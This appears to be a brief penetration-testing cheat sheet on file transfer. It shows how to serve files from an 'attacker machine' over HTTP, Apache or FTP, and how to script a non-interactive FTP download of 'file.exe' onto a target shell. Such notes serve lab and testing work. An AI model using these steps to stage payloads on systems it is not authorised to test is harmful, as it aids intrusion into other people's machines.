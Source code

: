 












## HTTP

Serve files from attacker machine:
- HTTP: `python3 -m http.server [PORT]` Default port 8000




### Apache server

On ATTACKER MACHINE:
```
sudo systemctl start apache2
```
Then place the files to share in: ```/var/www/html/```




















## FTP


Serve files:
- FTP: `python -m pyftpdlib [-p port]` Default port pyftpdlib uses is port 2121



Download:
On target machine, if the shell isn't interactive, create a file with all the FTP commands.

```
echo open ip-addr > ftp.txt
echo username >> ftp.txt
echo password >> ftp.txt
echo binary >> ftp.txt
echo GET file.exe >> ftp.txt
echo bye >> ftp.txt
```

Then run `ftp -v -n -s:ftp.txt`
